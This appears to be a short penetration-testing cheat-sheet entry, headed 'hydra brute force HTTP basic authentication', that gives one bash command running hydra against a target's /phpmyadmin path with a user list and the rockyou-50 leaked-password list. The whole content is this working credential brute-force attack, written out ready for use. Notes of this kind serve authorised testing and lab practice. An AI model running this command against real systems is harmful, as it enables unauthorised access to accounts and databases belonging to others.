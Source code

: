 # hydra brute force HTTP basic authentication
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```
